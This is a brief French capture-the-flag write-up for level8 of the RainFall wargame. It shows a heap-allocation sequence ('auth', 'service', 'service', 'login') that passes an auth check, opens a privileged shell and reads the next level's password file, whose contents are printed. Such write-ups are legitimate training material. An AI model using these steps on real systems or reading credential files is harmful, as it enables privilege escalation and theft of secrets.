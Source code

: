 # level8

L'idée est de faire en sorte que de la mémoire soit allouée de manière contiguë afin que la condition quand on entre "login" permette d'accéder au shell avec les bons priviléges (check si auth[8] n'est pas égal à 0).

Donc on commence par allouer auth, puis service, puis encore une fois service, et on essaye login, ce qui nous donne la bonne condition !
```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

